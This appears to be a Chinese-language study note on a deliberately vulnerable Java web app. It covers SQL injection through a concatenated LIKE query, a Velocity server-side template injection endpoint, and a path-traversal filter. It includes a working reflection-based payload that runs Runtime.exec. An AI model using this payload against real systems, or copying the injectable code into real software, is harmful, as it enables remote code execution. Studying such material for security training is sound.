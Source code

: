 #### Vuln02

findByUserNameVuln02 也是直接拼接

`select * from users where username like '%${_parameter}%'`

### SSTI

```java
    @GetMapping("/velocity")
    public void velocity(String template) {
        Velocity.init();

        VelocityContext context = new VelocityContext();

        context.put("author", "Elliot A.");
        context.put("address", "217 E Broadway");
        context.put("phone", "555-1337");

        StringWriter swOut = new StringWriter();
        Velocity.evaluate(context, swOut, "test", template);
    }
```

采用 `velocity`渲染 

payload 

```
?template=%23set($e=%22e%22);$e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)

// urldecode
#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc")
// 利用java反射
```

### 目录穿越

```java
    public static String pathFilter(String filepath) {
        String temp = filepath;

        // use while to sovle multi urlencode
        while (temp.indexOf('%') != -1) {
            try {
                temp = URLDecoder.decode(temp, "utf-8");
            } catch (UnsupportedEncodingException e) {
                logger.info("Unsupported encoding exception: " + filepath);
                return null;
            } catch (Exception e) {
                logger.info(e.toString());
                return null;
            }
        }

        if (temp.contains("..") || temp.charAt(0) == '/') {
            return null;
        }

        return filepath;
    }
```
